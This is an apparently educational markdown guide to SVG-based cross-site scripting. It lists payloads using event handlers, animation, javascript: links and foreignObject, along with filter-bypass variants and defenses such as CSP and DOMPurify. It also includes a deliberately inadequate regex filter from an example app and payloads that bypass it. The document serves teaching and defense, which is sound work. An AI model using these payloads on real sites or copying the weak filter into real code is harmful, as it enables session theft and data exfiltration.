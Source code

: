 # SVG-Based XSS Vulnerabilities

Scalable Vector Graphics (SVG) is an XML-based markup language for describing two-dimensional vector graphics. Unlike raster formats such as JPEG or PNG, SVG images can be scaled infinitely without losing quality, making them ideal for responsive web design and high-resolution displays.

Web applications that allow users to upload, generate, or input SVG content often do so to provide rich graphics capabilities. Common use cases include:

- Data visualization tools
- Diagram and flowchart editors
- Custom icon libraries
- Interactive graphics
- Design applications

## Security Concerns with SVG Input

While SVG provides powerful graphics capabilities, it also introduces significant security risks when user-provided SVG content is rendered without proper sanitization. SVG is fundamentally based on XML and can include:

1. **Executable JavaScript code** via various event handlers
2. **External resource loading** through links and references
3. **CSS manipulation** that can affect the entire page
4. **Complex interactions** with the DOM and browser environment

## SVG-Based XSS Attack Vectors

### 1. Event Handler Execution

SVG elements support numerous event handlers that can execute JavaScript:

```svg
<svg onload="alert('XSS')"></svg>
```

This simple example will execute the JavaScript code when the SVG element loads.

### 2. Script Elements within SVG

SVG allows embedding `<script>` elements directly:

```svg
<svg>
  <script type="text/javascript">
    alert('XSS via SVG script element');
  </script>
</svg>
```

### 3. Animation-Based Execution

SVG animation elements can trigger JavaScript:

```svg
<svg>
  <animate onbegin="alert('XSS')" attributeName="x" dur="1s" />
  <set onbegin="alert('XSS')" attributeName="y" to="10" />
</svg>
```

### 4. SVG Links and References

Links within SVG can use JavaScript URIs:

```svg
<svg>
  <a xlink:href="javascript:alert('XSS')">
    <text x="20" y="20">Click me for XSS</text>
  </a>
</svg>
```

### 5. Embedded HTML via foreignObject

SVG's `<foreignObject>` element can include HTML content:

```svg
<svg>
  <foreignObject>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <script>alert('XSS via foreignObject')</script>
    </body>
  </foreignObject>
</svg>
```

### 6. CSS-Based Attacks

SVG can include style elements with CSS that may leak information:

```svg
<svg>
  <style>
    @import url("data:,*{background-image:url(javascript:alert('XSS'))}");
  </style>
</svg>
```

## Common Filtering Bypass Techniques

When websites attempt to filter SVG input, attackers often use these techniques to bypass security measures:

### 1. Case Sensitivity Exploitation

```svg
<svg ONload="alert('XSS')"></svg>
```

### 2. No Space Required in Event Handlers

```svg
<svg/onload="alert('XSS')"></svg>
```

### 3. Encoding Variations

```svg
<svg onload=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;></svg>
```

### 4. Nested Element Bypasses

```svg
<svg><g><a xlink:href="javascript:alert(1)"></a></g></svg>
```

### 5. Using Different Event Handlers

If `onload` is filtered, try other event handlers:
```svg
<svg onmouseover="alert('XSS')"></svg>
```

## Real-World Impact of SVG XSS

SVG-based XSS can lead to various security breaches:

1. **Session hijacking**: Attackers can steal user cookies and authenticate as the victim
2. **Credential theft**: Through phishing forms injected via XSS
3. **Sensitive data exfiltration**: Reading and transmitting page content
4. **Website defacement**: Modifying the visual appearance of the application
5. **Malware distribution**: Redirecting users to malicious downloads

## Secure Handling of SVG Input

To prevent SVG-based XSS attacks, applications should implement:

### 1. Content Security Policy (CSP)

```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

### 2. SVG Sanitization Libraries

Use dedicated libraries designed to remove potentially malicious content from SVG:
- DOMPurify with SVG support enabled
- SVG-sanitize
- Ammonia (Rust-based)

### 3. Server-Side Validation

- Validate SVG structure and reject unexpected elements
- Use XML parsers that don't execute scripts
- Convert SVG to raster formats when possible (losing vector benefits)

### 4. SVG Feature Restriction

Restrict SVG to known-safe elements and attributes:
```javascript
const ALLOWED_SVG_ELEMENTS = ['svg', 'circle', 'rect', 'path', 'line', 'polyline', 'polygon', 'text', 'g'];
const ALLOWED_SVG_ATTRIBUTES = ['width', 'height', 'fill', 'stroke', 'stroke-width', 'x', 'y', 'cx', 'cy', 'r', 'd', 'points', 'transform'];
```

## Case Study: The ImageViewer Pro Vulnerability

In our example application, ImageViewer Pro allows users to input SVG code directly, with only minimal filtering that attempts to remove `<script>` tags but fails to address other attack vectors:

```javascript
// Vulnerable filtering - only removes script tags
const filtered = input.replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, '');
```

This filtering approach is inadequate because:

1. It doesn't block event handlers on SVG elements
2. It doesn't address `<use>` elements that can reference external resources
3. It doesn't prevent animation elements with event handlers
4. It doesn't catch `javascript:` URLs in links
5. It doesn't handle `<foreignObject>` elements

A real attacker can bypass this filtering with multiple techniques, as shown in our example payloads:

```svg
<svg onload=alert(1)>
<svg><set attributeName=x onbegin=alert(1)>
<svg><animate onend=alert(1) attributeName=x dur=1s>
```

## Conclusion

SVG-based XSS represents a significant security risk for applications that render user-provided SVG content. The complex nature of SVG, with its support for scripting, external resources, and rich interactivity, makes it a challenging attack surface to secure.

Application developers must implement comprehensive security controls including proper sanitization, content security policies, and feature restrictions to safely handle SVG input from untrusted sources.

## References

1. OWASP XSS Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
2. HTML5 Security Cheatsheet: https://html5sec.org/
3. Content Security Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
4. DOMPurify Documentation: https://github.com/cure53/DOMPurify
5. SVG Security: https://developer.mozilla.org/en-US/docs/Web/SVG/SVG_security